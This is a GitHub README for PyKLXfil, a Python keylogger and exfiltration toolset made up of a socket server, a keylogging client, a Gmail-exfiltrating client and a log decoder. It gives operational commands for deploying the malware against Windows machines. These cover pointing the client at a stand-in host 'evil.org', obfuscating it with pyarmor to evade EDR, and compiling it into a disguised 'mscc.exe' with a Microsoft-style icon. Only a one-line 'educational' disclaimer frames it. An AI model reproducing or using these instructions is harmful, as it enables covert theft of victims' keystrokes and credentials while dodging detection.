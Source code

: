 # PyKLXfil: Python Keylogger and Exfiltrator.
## The toolset contains four main tools:
* PyKLXfil-Server: a socket server to recieve the exfiltrated data from the client.
* PyKLXfil-Client: the agent that will perform the encoded key logging with a custome base64 table and the exfiltration of data back to PyKLXfil-Server.
* PyKLXfil-Client-mail: a standalone agent that will perform encoded key logging with a custome base64 table and exfiltration to a gmail email account (more stealthy).
* PyKLXfil-Decoder: a tool to decode the key logs.
#### Disclaimer: For educational purpose, use at your own responsibility.
## Install:
```sh
  git clone https://github.com/iD4rksid3/PyKLXfil.git
  cd PyKLXfil
  #The tool requires only two external modules: yagmail and pynput
  pip3 install -r requirements.txt
  ```
## Usage:
### Key logging and exfiltration using socket server and client:
* On the server, start listening on all NICs and on port 443 as background job:
```sh
python3 PyKLXfil-Server.py 0.0.0.0 443 &
```
* For the client, edit PyKLXfil-Client.py and add your server's IP/domain and port then compile and obfuscate the script for a Windows machine:
```sh
 nano PyKLXfil-Client.py
 #snip...       
 #self.host = 'evil.org'
 #self.port = 4444
 ```
 * Make Windows executable client by either of the ways:
 1. obfuscated Windows executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client.py -n mscc.exe
 ```
 OR:
 
 2. Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client.py
```
* Once the client is deployed on a Windows machine it will start key logging and exfiltrate them back to the server.
### Key logging and exfiltration using gmail (more stealthy):
* You will first need to get app password token to be used in the script, a good guide can be found [here](https://towardsdatascience.com/automate-sending-emails-with-gmail-in-python-449cc0c3c317)
```sh
nano PyKLXfil-Client-mail.py
 #snip...       
  #user = 'example@gmail.com'
  #app_password = 'qweertyuiop12345678'
  #to = 'example@gmail.com'
```
* Make Windows executable client with either:
1. Make obfuscated executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client-mail.py -n mscc.exe
 ```
 OR:
 
2. Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client-mail.py
```
 * After recieving the encoded log files from the client or the mail-client, PyKLXfil-Decoder.py can be used to decode them:
```sh
python3 PyKLXfil-Decoder.py xxxx.log
#will result in a decoded file Decoded-xxxx.log
```
## License

Distributed under the MIT License. See `LICENSE` for more information.
